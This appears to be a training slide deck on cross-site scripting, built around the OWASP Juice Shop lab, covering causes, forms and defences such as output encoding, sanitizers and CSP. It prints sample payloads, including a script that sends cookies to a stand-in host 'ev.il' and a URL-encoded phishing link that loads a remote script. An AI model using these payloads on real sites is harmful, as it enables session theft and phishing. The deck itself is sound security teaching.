

<!-- theme: default -->
<!-- paginate: true -->
<!-- footer: Copyright (c) by **Bogdan Mihai Nicolae** | Licensed under [CC-BY-SA 4.0](https://creativecommons.org/licenses/by-sa/4.0/) -->

# XSS

## (Cross-Site Scripting)

---

# How browsers work


<!--
Before delving into the complexities of cross-site scripting (XSS), it's crucial to comprehend how the browser operates.
The browser initiates a request to the server for a specific webpage.
Upon receiving the request, the server responds by sending back an HTML document.
After receiving the HTML document, the browser constructs the Document Object Model (DOM) based on its structure.
The DOM essentially represents the webpage's structure as a tree-like structure of objects, facilitating interactions and manipulations.

In summary, the interpretation of HTML can result in cross-site scripting (XSS) vulnerabilities, as HTML documents may include script tags containing malicious code.
-->

---

# [Cross-Site Scripting](https://owasp.org/www-community/attacks/xss/)

* An attacker can use XSS to send a malicious script to an unsuspecting
  user
* The end user’s browser has no way to know that the script should not
  be trusted, and will execute the script
* Because it thinks the script came from a trusted source, the malicious
  script can access any cookies, session tokens, or other sensitive
  information retained by the browser and used with that site
* These scripts can even rewrite the content of the HTML page

---

# Root Cause

Web applications vulnerable to XSS...

1. ...include untrusted data (usually from an HTTP request) into dynamic
   content...
2. ...that is then sent to a web user _without previously validating for
   malicious content_

_:information_source: XSS originally had its own category, e.g. [A7:2017-Cross-Site Scripting (XSS)](https://owasp.org/www-project-top-ten/2017/A7_2017-Cross-Site_Scripting_(XSS).html). Since 2021 it is considered part of the [Injection](01-01-injection.md) category._

<!--
Web applications vulnerable to XSS often incorporate untrusted data, typically obtained from an HTTP request, into dynamic content. This untrusted data, which can include user input, URL parameters, or other sources, is then rendered on web pages without prior validation.
-->
---

# Typical Impact

* Steal user's session
* Steal sensitive data
* Rewrite the web page
* Redirect user to malicious website

<!--
Attackers exploiting XSS vulnerabilities can steal user sessions, gaining unauthorized access to accounts and compromising user privacy and security. Additionally, sensitive data such as personal information, credit card details, or login credentials can be intercepted and stolen. Furthermore, XSS attacks can manipulate the content of web pages, potentially altering their appearance or functionality, leading to confusion or mistrust among users. Moreover, attackers can redirect users to malicious websites, exposing them to further security threats such as phishing attacks or malware installations.
-->
---

# Typical Phishing Email

<small>Dear valued customer!

You won our big lottery which you might not even have participated in!
Click on the following totall inconspicious link to claim your prize
**now**!

[CLICK HER! FREE STUFF! YOU WON!](http://localhost:3000/#/search?q=%3Cimg%20src%3D%22bha%22%20onError%3D%27javascript%3Aeval%28%60var%20js%3Ddocument.createElement%28%22script%22%29%3Bjs.type%3D%22text%2Fjavascript%22%3Bjs.src%3D%22http%3A%2F%2Flocalhost%3A8080%2Fshake.js%22%3Bdocument.body.appendChild%28js%29%3Bvar%20hash%3Dwindow.location.hash%3Bwindow.location.hash%3D%22%23%2Fsearch%3Fq%3Dowasp%22%3BsearchQuery.value%20%3D%20%22owasp%22%3B%60%29%27%3C%2Fimg%3Eowasp)

Sincereely yours,

Bjorn Kimminich CEO of Juice Shop Inc.

<small><small>_Juice Shop Inc. is registered as a bla bla bla bla yadda
yadda yadda more assuring legal bla All logos and icons are trademarks
of Juice Shop Inc. Copyright (c) 2024 Juice Shop
Inc._</small></small></small>

<!--
This typical phishing email exemplifies a common tactic used by attackers to deceive recipients into clicking malicious links. The email falsely claims that the recipient has won a lottery prize, enticing them to click on an link to claim their reward. However, the link actually leads to a malicious website disguised as a legitimate one. Upon clicking the link, JavaScript code embedded within an image executes, potentially compromising the user's device by downloading and executing additional malicious code. The email further adds legitimacy by impersonating the CEO of a company, adding a false sense of trustworthiness.
-->

---

# [XSS Demo](https://github.com/wurstbrot/shake-logger)

[](https://youtu.be/Msi52Kicb-w)

:information_source: _This video shows how severe the impact of XSS can
be: It makes the application shake & dance **and** lets a keylogger
steal user credentials!_

---

# :x: Vulnerable Code Example

```html
<!--search.jsp-->

<%String searchCriteria = request.getParameter("searchValue");%>
```

might forward to the following page when executing the search:

```html
<!--results.jsp-->

Search results for <b><%=searchCriteria%></b>:

<table>
<!-- Render the actual results table here -->
</table>
```

<!--
 Let's see some code. In the search.jsp file, the code retrieves user input from the request parameter searchValue without performing any validation or sanitization. This input is then directly embedded into the HTML response in the results.jsp page using scriptlet tags (<%= %>) to render the search criteria. 
-->
---

# Benign Usage

` https://my-little-application.com/search.jsp?searchValue=blablubb `

results in the following HTML on the `results.jsp` page:

```html
Search results for <b>blablubb</b>:
```

rendering as:

<hr>

Search results for <b>blablubb</b>:

<!--
Therefore, when the string 'blablubb' is passed as the searchValue parameter in the URL, the resulting server-side rendered page will contain the string 'blablubb' enclosed within the <b> tag.
-->
---

# Exploit Example (HTML Injection)

` https://my-little-application.com/search.jsp?searchValue=</b><b> `

results in the following HTML on the `results.jsp` page:

```html
Search results for
  <b></b><b></b>:
```

rendering as:

<hr>

Search results for <b></b><b></b>:

<!--
When substituting the string 'blablubb' with HTML code containing elements like an  tag that points to an image hosted on an external domain, the injected HTML code gets interpreted and executed. Consequently, this leads to the external image being displayed within the search results.
-->

---

# XSS Attack Payload Examples

#### Stealing User Session

```javascript
<script>
  new Image().src="http://ev.il/hijack.php?c="+encodeURI(document.cookie);
</script>
```

#### Site Defacement

```javascript
<script>document.body.background="http://ev.il/image.jpg";</script>
```

#### Redirect

```javascript
<script>window.location.assign("http://ev.il");</script>
```

<!--
Now that we've explored the workings of cross-site scripting, let's examine examples of XSS attack payloads.

The first payload demonstrates how an attacker can steal a user's session by injecting a script that sends the user's cookies to a malicious server. This script creates a new image element with the source set to a URL that includes the user's encoded cookies, allowing the attacker to capture sensitive session information.

The second payload showcases a site defacement attack, where the attacker injects a script to modify the background of the web page to display an unauthorized image hosted on an external server. This can lead to the visual alteration of the website, potentially damaging its reputation and integrity.

The third payload demonstrates a redirection attack, where the attacker injects a script to redirect the user to a malicious website. By invoking the window.location.assign() method with the URL of the malicious site, the attacker can lure users to phishing or malware-infected pages, compromising their security and privacy.
-->
---

# Forms of XSS

* **Reflected XSS**: Application includes unvalidated and unescaped user
  input as part of HTML output
* **Stored XSS**: Application stores unsanitized user input that is
  viewed at a later time by another user
* **DOM XSS**: JavaScript frameworks & single-page applications
  dynamically include attacker-controllable data to a page

_:information_source: The previous example vulnerability and exploit of
`results.jsp` is a typical Reflected XSS._

<!--
There are three distinct form of cross-site scripting (XSS):

Reflected XSS occurs when the application includes unvalidated and unescaped user input as part of its HTML output. This allows attackers to inject malicious scripts that are then reflected back to the user's browser.

Stored XSS, on the other hand, happens when the application stores unsanitized user input, which is later viewed by another user. This stored input can contain malicious scripts that are executed when the content is retrieved and displayed.

DOM XSS is a variation of XSS that occurs in JavaScript frameworks and single-page applications. In this case, attacker-controllable data is dynamically included on a page, leading to script execution in the context of the DOM.
-->
---

<!-- _footer: Монгол: Reflected XSS, 2016 Nurmukhamyed, used under CC-BY-SA 4.0 -->

# Reflected XSS


<!--
Reflected XSS occurs through the following steps:

1. The attacker crafts a malicious URL and distributes it to a victim via email or another communication method.
2. The victim is deceived into clicking the URL, leading to a request to the vulnerable website.
3. The server processes the request and returns a page containing the malicious script embedded within it.
4. Upon receiving the page, the victim's browser interprets the HTML content, executing the script, which then sends a GET request to the attacker's server, including the victim's cookie data.
-->
---

<!-- _footer: Монгол: Stored XSS, 2016 Nurmukhamyed, used under CC-BY-SA 4.0 -->

# Stored XSS



<!--
Stored XSS unfolds as follows:

1. The attacker embeds a malicious script within the database, typically by submitting it as the latest comment through an unchecked website form.
2. The victim accesses the website and views the page, which displays the most recent comments, including the one containing the malicious script.
3. The server processes the request and serves the page to the victim's browser, which now contains the injected script.
4. The victim's browser executes the HTML content, triggering the embedded script. Consequently, the script sends a GET request to the attacker's server, including the victim's cookie data.
-->

---

<!-- _footer: Монгол: DOM-based XSS, 2016 Nurmukhamyed, used under CC-BY-SA 4.0 -->

# DOM XSS


<!--
DOM XSS follows this sequence:

1. The attacker creates a malicious URL and sends it to a victim via email or another channel.
2. The victim clicks the URL, triggering a request to the vulnerable website.
3. The server processes the request and returns a page containing HTML and JavaScript to render the website. However, since the website doesn't use server-side rendering, the received code lacks the malicious script.
4. The victim's browser executes the JavaScript required for client-side rendering, constructing the page. During this process, the JavaScript uses the innerHTML method to inject the malicious script from the URL.
5. Subsequently, the injected malicious script executes in the victim's browser, sending a GET request to the attacker's server, which may include the victim's cookie data.
-->

---

# Exercise 2.1

1. Identify places where user input is _directly_ included in the output
2. Perform a successful _DOM XSS_ attack (:star:)
3. Perform a successful _Reflected XSS_ attack (:star::star:)

_:warning: Make sure that you really understand the subtle difference
between those two underlying vulnerabilities._

---

# [Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)

* **Do not include user supplied input in your output!** :100:

* **Output Encode** all user supplied input
  * e.g. OWASP Java Encoder
* Perform **Allow List Input Validation** on user input

* Use an HTML Sanitizer for larger user supplied HTML chunks
  * e.g. OWASP Java HTML Sanitizer

* Avoid circumventing automatic sanitization features in frontend frameworks such as Angular and React.

<!--
Preventing XSS attacks involves several key measures:

Avoid including user-supplied input directly in your output. Always validate and sanitize input data before rendering it in HTML responses.

Implement output encoding for all user-supplied input to prevent malicious scripts from being executed. Utilize libraries like OWASP Java Encoder for secure encoding practices.

Apply Allow List Input Validation to restrict user input to known safe values or patterns, reducing the risk of injecting malicious scripts.

For handling larger HTML chunks provided by users, use an HTML sanitizer to remove any potentially harmful elements or attributes. Tools like OWASP Java HTML Sanitizer can help ensure the safety of HTML content within your application.

Lastly, refrain from bypassing automatic sanitization features in frontend frameworks like Angular and React.
-->

---

# :heavy_check_mark: Fixed Code Example

Using `Encoder` from
[OWASP Java Encoder Project](https://wiki.owasp.org/index.php/OWASP_Java_Encoder_Project):

```html
<%import org.owasp.encoder.Encode;%>

Search results for <b><%=Encode.forHtml(searchValue)%></b>:
<!-- ... -->
```

Same result using `HtmlUtils` from the popular Spring framework:

```html
<%import org.springframework.web.util.HtmlUtils;%>

Search results for <b><%=HtmlUtils.htmlEscape(searchValue)%></b>:
<!-- ... -->
```

<!--
Let's take our previous search example and fix it, to do that we're using encoding libraries to sanitize user input before displaying it in HTML output.

With the OWASP Java Encoder Project, we import the Encode class and use the forHtml() method to encode the searchValue variable.

In the Spring framework example, we import HtmlUtils and use the htmlEscape() method to escape HTML characters in the searchValue variable.
-->
---

# [Encoding Contexts](https://wiki.owasp.org/index.php/OWASP_Java_Encoder_Project#tab=Use_the_Java_Encoder_Project)

### HTML Content

```html
<textarea name="text"><%= Encode.forHtmlContent(UNTRUSTED) %></textarea>
```

#### HTML Attribute

```html
<input type="text"
       name="address"
       value="<%= Encode.forHtmlAttribute(UNTRUSTED) %>" />
```

_Alternatively_ `Encode.forHtml(UNTRUSTED)` _can be used for both the
above contexts but is less efficient as it encodes more characters._

<!--
The OWASP Java Encoder Project offers methods tailored for encoding user input in different HTML contexts.

For HTML content like text areas, use Encode.forHtmlContent(). For HTML attributes such as input values, use Encode.forHtmlAttribute().

Alternatively, Encode.forHtml() can be used for both contexts, but it encodes more characters, making it less efficient. Therefore, prefer context-specific methods for optimal security and performance.
-->
---

### JavaScript

```html
<script type="text/javascript">
 var msg = "<%= Encode.forJavaScriptBlock(UNTRUSTED) %>";
 alert(msg);
</script>
```

#### JavaScript Variable

```html
<button onclick="alert('<%= Encode.forJavaScriptAttribute(UNTRUSTED) %>');">
 click me
</button>
```

_Alternatively_ `Encode.forJavaScript(UNTRUSTED)` _can be used for both
the above contexts but is less efficient as it encodes more characters._

<!--
For JavaScript blocks, like variable assignments, use Encode.forJavaScriptBlock(). For embedding input within JavaScript attributes, like event handlers, use Encode.forJavaScriptAttribute().

Alternatively, you can use Encode.forJavaScript() for both contexts, but it's less efficient. Use context-specific encoding methods for optimal security and performance.
-->
---

### CSS

```html
<div style="width:<= Encode.forCssString(UNTRUSTED) %>">
<div style="background:<= Encode.forCssUrl(UNTRUSTED) %>">
```

### URL Parameter

```html
<a href="/search?value=<%= Encode.forUriComponent(UNTRUSTED) %>&order=1#top">
<a href="/page/<%= Encode.forUriComponent(UNTRUSTED) %>">
```

<!--
For CSS strings and URLs, use Encode.forCssString() and Encode.forCssUrl() respectively to encode the user input.

For URLs, including query parameters or path segments, use Encode.forUriComponent().
-->
---

# [OWASP Java HTML Sanitizer](https://wiki.owasp.org/index.php/OWASP_Java_HTML_Sanitizer_Project)

Fast and easy to configure HTML Sanitizer written in Java which lets you
include HTML authored by third-parties in your web application while
protecting against XSS.

## Using a simple pre-packaged policy

```java
private String sanitizeHtml(String html) {
  PolicyFactory policy = Sanitizers.FORMATTING.and(Sanitizers.BLOCKS)
				              .and(Sanitizers.LINKS);
  return policy.sanitize(html);
}
```

<!--
To safeguard against XSS while including HTML from third parties, we can utilize a fast and easy-to-configure HTML Sanitizer written in Java.

By employing a pre-packaged policy, we can quickly apply necessary sanitization rules to the HTML content.
-->
---

## Custom Sanitization Policy

```java
private static final PolicyFactory BASIC_FORMATTING_WITH_LINKS_POLICY =
  new HtmlPolicyBuilder()
  .allowCommonInlineFormattingElements().allowCommonBlockElements()
  .allowAttributes("face", "color", "size", "style").onElements("font")
  .allowAttributes("style").onElements("div", "span").allowElements("a")
  .allowAttributes("href").onElements("a").allowStandardUrlProtocols()
  .requireRelNofollowOnLinks().toFactory();
```

_This custom policy actually reflects the features of a 3rd-party rich
text editor widget for GWT applications the author once used._

<!--
For tailored sanitization needs, we can create a custom sanitization policy using the HtmlPolicyBuilder
-->
---

# Input Validation

## Block List

* **"Allow what is not explicitly blocked!"**
  * Example: Do not allow `<`, `>`, `"`, `;`, `'` and `script` in user
    input (:interrobang:)

* Can be bypassed by masking attack patterns
* Must be updated for new attack patterns

**= Negative Security Rule**

<!--
Input Validation
Using a block list approach involves specifying characters or patterns that are not allowed in user input. For instance, blocking characters like <, >, ", ;, ', and the word script helps mitigate risks.

However, it's important to recognize that block list validation can be bypassed by attackers using techniques like character masking. Additionally, maintaining and updating block lists for new attack patterns can be challenging and prone to oversight.
-->
---

## Allow List

* **"Block what is not explicitly allowed!"**
  * Example: Allow only `a-z`, `A-Z` and `0-9` in user input

<!-- -->

* Provide protection even against future vulnerabilities
* Tend to get weaker over time when not carefully maintained
* Can be quite effortsome to define for a whole application

**= Positive Security Rule**

<!--
Input validation
Allow List approach involves allowing only explicitly permitted characters or patterns in user input. For example, restricting input to only include alphanumeric characters (a-z, A-Z, and 0-9) effectively blocks any other characters from being accepted.

This approach offers several advantages. It provides protection against not only known vulnerabilities but also potential future threats. By explicitly defining allowed inputs, the Allow List serves as a positive security rule, making it clear what is acceptable and reducing the likelihood of unintended vulnerabilities.

Allow Lists require careful maintenance to remain effective over time. As new attack patterns emerge, the  list must be updated accordingly to ensure continued protection. Additionally, defining Allow Lists for an entire application can be labor-intensive and may require thorough analysis of all input sources.

-->
---

# Prevent Bypassing Frontend Framework Sanitization

#### [Angular trusting safe values](https://angular.dev/best-practices/security#trusting-safe-values)

* bypassSecurityTrustHtml
* bypassSecurityTrustScript
* bypassSecurityTrustStyle
* bypassSecurityTrustUrl
* bypassSecurityTrustResourceUrl

#### [React](https://react.dev/reference/react-dom/components/common#dangerously-setting-the-inner-html)

```javascript
const markup = { __html: '<p>some raw html</p>' };
return <div dangerouslySetInnerHTML={markup} />;
```

<!--
Angular and React come equipped with built-in sanitization features by default. These features are designed to handle user input securely and prevent XSS vulnerabilities. However, in scenarios where there's a specific requirement to include potentially safe content, developers can leverage specific methods or attributes provided by the frameworks. For instance, Angular offers bypassSecurityTrustHtml, while React provides dangerouslySetInnerHTML. It's important to exercise caution when bypassing default sanitization and do so only when absolutely necessary.
-->

---

# Web server configuration

#### Content-Security-Policy

```http
Content-Security-Policy: default-src 'self'; img-src *; media-src example.org example.net; script-src userscripts.example.com
```

#### HttpOnly and Secure
```http
Set-Cookie: sessionid=QmFieWxvbiA1; HttpOnly; Secure
```

<!--
Web server configuration is vital for bolstering web application security. 
HTTP headers such as Content-Security-Policy (CSP) empower administrators to dictate resource loading rules, thereby ensuring that resources like images, CSS files, and JavaScript files can only load from specified domains.
Furthermore, implementing secure HTTP cookies with attributes like HttpOnly and Secure enhances defense against attacks aimed at compromising cookies. The HttpOnly attribute guarantees that cookies remain inaccessible to client-side scripts, while the Secure attribute mandates that cookies are exclusively transmitted over HTTPS connections.
-->
---

# "Client Side Validation"


---

# Bypassing Client Side Validation

* Client Side Validation is _always_ for _convenience_ but **never** for
  **security**!
* You can just stop all outgoing HTTP requests in your browser...
  * ...and tamper with contained headers, data or passed parameters
  * ..._after_ Client Side Validation took place
  * ...but _before_ they are actually submitted to the server
* Sometimes you can just bypass the client entirely and interact with
  the backend instead

<!--
Client-side validation is primarily for user convenience, not security. However, it's crucial to understand its limitations. Attackers can easily bypass client-side validation by intercepting outgoing HTTP requests in their browser and tampering with headers or data before submission to the server. This occurs after client-side validation but before data is sent to the server. Sometimes, attackers may skip client-side validation entirely and interact directly with the backend. As a result, while client-side validation enhances user experience, it's essential to implement robust server-side validation and security measures to protect against potential threats.
-->

---

# Exercise 2.2 (:house:)

1. Identify places where _stored_ user input is displayed elsewhere
2. Perform any _Stored XSS_ attack successfully (:star::star: -
   :star::star::star::star::star::star:)
3. Visit the page where the attack gets executed to verify your success

_:information_source: If your attack seems to be blocked or otherwise
prevented, you can either try to somehow beat the security mechanism or
just find an easier target! You can always come back to the harder
challenges with more knowledge on how to bypass certain security
controls._
